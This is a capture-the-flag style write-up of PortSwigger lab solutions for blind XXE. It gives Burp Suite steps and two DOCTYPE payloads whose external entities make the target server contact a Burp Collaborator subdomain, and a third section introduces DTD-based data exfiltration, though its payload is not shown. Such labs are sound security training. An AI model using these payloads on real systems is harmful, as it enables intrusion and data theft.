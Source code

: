 ## Blind XXE with out-of-band interaction
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction


### Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
```
5. Replace the ``productId`` number with a reference to the external entity:
```
&xxe;
```
6. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Blind XXE with out-of-band interaction via XML parameter entities
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities


### Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Exploiting blind XXE to exfiltrate data using a malicious external DTD
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration


### Quick Solution
In this lab a **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. Payload in the next paragraph.
